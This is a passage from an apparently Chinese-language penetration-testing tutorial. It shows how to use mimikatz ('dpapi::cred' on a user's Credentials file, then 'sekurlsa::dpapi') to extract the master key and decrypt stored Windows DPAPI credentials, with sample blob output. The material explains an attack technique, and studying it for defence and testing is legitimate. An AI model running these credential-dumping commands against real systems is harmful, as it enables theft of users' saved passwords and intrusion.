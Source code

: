 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210122120624.png-water_print](assets/1699410001-1f50cbee8d6757b196bd57e937533154.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210122120624.png-water_print")

-   使用 mimikatz 进行操作
    -   `mimikatz dpapi::cred /in:C:\Users\by\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D`

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>``` | ```fallback<br>**BLOB**<br>  dwVersion          : 00000001 - 1<br>  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}<br>  dwMasterKeyVersion : 00000001 - 1<br>  guidMasterKey      : {ffc994a1-de8d-4304-9416-31e587f7a8ca}<br>  dwFlags            : 20000000 - 536870912 (system ; )<br>  dwDescriptionLen   : 00000030 - 48<br>  szDescription      : Local Credential Data<br><br>  algCrypt           : 00006610 - 26128 (CALG_AES_256)<br>  dwAlgCryptLen      : 00000100 - 256<br>  dwSaltLen          : 00000020 - 32<br>  pbSalt             : 00fed8ca7ec6d44585dd1fbd8b57e77b6ab0cf318ec5d52d09fd0694ffb89ccb<br>  dwHmacKeyLen       : 00000000 - 0<br>  pbHmackKey         :<br>  algHash            : 0000800e - 32782 (CALG_SHA_512)<br>  dwAlgHashLen       : 00000200 - 512<br>  dwHmac2KeyLen      : 00000020 - 32<br>  pbHmack2Key        : b49ef55f909fa503eda37ddc797c83c99df983920bfb4628e07aac5cb32bb530<br>  dwDataLen          : 000000b0 - 176<br>  pbData             : 4083f8f501b999a35c4aa57ce732bf52d30a6e604dac5a91b6fd3e65660c52a536025c5126f0d12b85044498deef08a8688b3459f49514ed6ae46271a1cb4cd0e70845d9b6beccbcbe85dead0fb7c80b4f7810add87b75c48592fcbfbbfd94fa4eee8004f8cf6d9619ef4b9af643f4c9ef0e8a2a5b0cd00530a5638cfd114fee4b735ac12eef2c7e6a0364845eb0ee4b3ab121e33324f8d5af48f3422bd47a76ab5e9e9e5a1a383e22fff8bf851b6a2a<br>  dwSignLen          : 00000040 - 64<br>  pbSign             : 7c8dbe7991c6af4d3bfc9f808790a0904738d0ca227bc2ee20ee26cbf06487dd2679e932b27ea0c0cbbe590ee6430641605d7001b2158c8873c5d6a09a9855a8<br>``` |

接下来需要使用的就是 guidMasterKey、pbData 数据。pbData 是凭据的加密数据，guidMasterKey 是凭据的 GUID

-   使用 `sekurlsa::dpapi`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210122120648.png-water_print](assets/1699410001-b5314a5b7cb1d726d4bdd50da9fe7afd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210122120648.png-water_print")

根据目标凭据 `GUID:{ffc994a1-de8d-4304-9416-31e587f7a8ca}`找到其关联的 MasterKey，这个 `MasterKey` 就是加密凭据的密钥，即解密 `pbData` 所必须的东西。

